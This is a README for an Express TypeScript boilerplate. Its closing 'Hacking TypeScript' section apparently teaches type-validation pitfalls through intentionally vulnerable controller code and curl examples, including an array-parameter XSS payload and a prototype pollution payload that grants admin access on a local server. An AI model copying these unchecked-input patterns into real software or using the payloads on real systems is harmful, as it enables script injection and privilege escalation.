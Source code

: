 # 🚀 Express TypeScript Boilerplate 2024

[![Build](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml)
[![Test](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml)
[![Code Quality](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml)
[![Docker Image CI](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml)

``` code
Hey There! 🙌 
🤾 that ⭐️ button if you like this boilerplate. 
```

## 🌟 Introduction

Welcome to the Express TypeScript Boilerplate 2024 – a streamlined, efficient, and scalable foundation for building powerful backend services with modern tools and practices in Express.js and TypeScript.

## 💡 Motivation

This boilerplate aims to:

- ✨ Reduce setup time for new projects
- 📊 Ensure code consistency and quality
- ⚡  Facilitate rapid development
- 🛡️ Encourage best practices in security, testing, and performance

## 🚀 Features

- 📁 Modular Structure: Organized by feature for easy navigation and scalability
- 💨 Faster Execution with tsx: Rapid TypeScript execution with `tsx` and type checking with `tsc`
- 🌐 Stable Node Environment: Latest LTS Node version in `.nvmrc`
- 🔧 Simplified Environment Variables: Managed with Envalid
- 🔗 Path Aliases: Cleaner code with shortcut imports
- 🔄 Renovate Integration: Automatic updates for dependencies
- 🔒 Security: Helmet for HTTP header security and CORS setup
- 📊 Logging: Efficient logging with `pino-http`
- 🧪 Comprehensive Testing: Setup with Vitest and Supertest
- 🔑 Code Quality Assurance: Husky and lint-staged for consistent quality
- ✅ Unified Code Style: `Biomejs` for consistent coding standards
- 📃 API Response Standardization: `ServiceResponse` class for consistent API responses
- 🐳 Docker Support: Ready for containerization and deployment
- 📝 Input Validation with Zod: Strongly typed request validation using `Zod`
- 🧩 Swagger UI: Interactive API documentation generated from Zod schemas

## 🛠️ Getting Started

### Video Demo

For a visual guide, watch the [video demo](https://github.com/user-attachments/assets/b1698dac-d582-45a0-8d61-31131732b74e) to see the setup and running of the project.

### Step-by-Step Guide

#### Step 1: 🚀 Initial Setup

- Clone the repository: `git clone https://github.com/edwinhern/express-typescript-2024.git`
- Navigate: `cd express-typescript-2024`
- Install dependencies: `npm ci`

#### Step 2: ⚙️ Environment Configuration

- Create `.env`: Copy `.env.template` to `.env`
- Update `.env`: Fill in necessary environment variables

#### Step 3: 🏃‍♂️ Running the Project

- Development Mode: `npm run dev`
- Building: `npm run build`
- Production Mode: Set `.env` to `NODE_ENV="production"` then `npm run build && npm run start`

## 🤝 Feedback and Contributions

We'd love to hear your feedback and suggestions for further improvements. Feel free to contribute and join us in making backend development cleaner and faster!

🎉 Happy coding!

## 💀 Hacking TypeScript

### TypeScript Validation Fail #1

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: any = _req.query.filter || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

Even though we are using TypeScript, we defined the filterQuery as `any` which is the obvious glaring mistake. So upon sending a request to the `/api/users` endpoint with a query parameter `filter` that may not be a string, we get the following to send a response back

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

### TypeScript Validation Fail #2

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
        const filterQuery: string = _req.query.filter as string || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

We have now improved upon the previous code and treat the `filterQuery` as a string.

Next, run the TS compiler to ensure all types are as expected:

```bash
npx tsc
```

Let's send a request to see how the server behaves:

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

Still, we get results back. Even though, supposedly we should only be accepting a string as a filter query and not arrays, per our TypeScript definitions.

### TypeScript Security Bypass #3

We send in a query parameter that is a string but contains a malicious payload but it gets sanitized correctly per our logic:

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name=<img liran"

Bad input detected!
```

What happens if we update the query string so that the field is to be interpreted as an array instead of a string?

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name[]=<img src=x onError=alert(1) />"           

<h1>Hello, <img src=x onError=alert(1) />!</h1>
```

### TypeScript Security Bypass #4

Let's bypass both TypeScript types and Zod schema input validation.

First off, a safe request:

```bash
curl http://localhost:8080/users/1/settings | jq
```

Let's set a setting to enabled:

```bash
curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/1/settings -d '{"darkmode": true}' 
```

Now let's specifically set the notifications settings

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "email", "notificationMode": "daily", "notificationModeValue": "disabled"}'
```

Now let's try to type juggle the notifications settings and cause some havoc on the server

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": {"type": "email"}, "notificationMode": ["daily"], "notificationModeValue": "disabled"}'
```

Now let's abuse this with a prototype pollution payload:

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'
```

Let's try to access the admin route now:

```bash
curl http://localhost:8080/admin
```